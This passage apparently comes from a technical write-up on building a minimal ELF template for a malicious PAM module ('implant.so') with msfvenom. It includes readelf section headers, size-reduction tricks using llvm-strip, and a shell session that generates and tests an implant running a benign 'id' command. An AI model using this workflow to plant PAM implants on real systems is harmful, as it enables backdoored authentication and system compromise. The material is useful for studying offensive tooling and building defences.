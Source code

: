 This is brittle, though, as it depends on the exact length of everything after
the `jmp`. Any alteration to the template would require recalculating the
offset by hand, which seems wasteful.

Looking at the output of `readelf`, there's only one section after the `.text`
segment containing our code:

```
Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .hash             HASH             0000000000000100  00000100
       0000000000000018  0000000000000004   A       3     0     8
  [ 2] .gnu.hash         GNU_HASH         0000000000000118  00000118
       0000000000000028  0000000000000000   A       3     0     8
  [ 3] .dynsym           DYNSYM           0000000000000140  00000140
       0000000000000048  0000000000000018   A       4     1     8
  [ 4] .dynstr           STRTAB           0000000000000188  00000188
       0000000000000024  0000000000000000   A       0     0     1
  [ 5] .dynamic          DYNAMIC          00000000000001b0  000001b0
       00000000000000c0  0000000000000010  WA       4     0     8
  [ 6] .text             PROGBITS         0000000000000270  00000270
       0000000000000018  0000000000000000  AX       0     0     16
  [ 7] .shstrtab         STRTAB           0000000000000000  00000288
       0000000000000034  0000000000000000           0     0     1
```

`shstrtab` is the section that contains the names of all the sections, and is
completely optional. GNU utils (like `ld` and `strip`) won't let you discard
it, but `llvm-strip` has no such qualms. It'll also reduce the size of the
output module by about 50% (1259 bytes to 695).

```sh
micrictor@dev:~/msfvenom_pam$ wc implant.so 
   1    7 1259 implant.so
micrictor@dev:~/msfvenom_pam$ nasm elf_pam_so_x64_linked.s -f elf64 -o elf_pam_so_template_x64.o
micrictor@dev:~/msfvenom_pam$ ld -s -T pam.ld -shared elf_pam_so_template_x64.o -o elf_pam_so_template.bin
micrictor@dev:~/msfvenom_pam$ llvm-strip-13 --strip-all --strip-sections elf_pam_so_template.bin
micrictor@dev:~/msfvenom_pam$ msfvenom -x elf_pam_so_template.bin -f elf --payload linux/x64/exec CMD='id > proof.txt' > ./implant.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 51 bytes
Final size of elf file: 695 bytes

micrictor@dev:~/msfvenom_pam$ ./tester `pwd`/implant.so
0x7f96ed68e274: pam_sm_authenticate = 0
0x7f96ed68e270: pam_sm_setcred = 0
Finished running
micrictor@dev:~/msfvenom_pam$ cat proof.txt 
uid=1000(micrictor) gid=1000(micrictor) groups=1000(micrictor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),118(docker),998(microk8s)
```
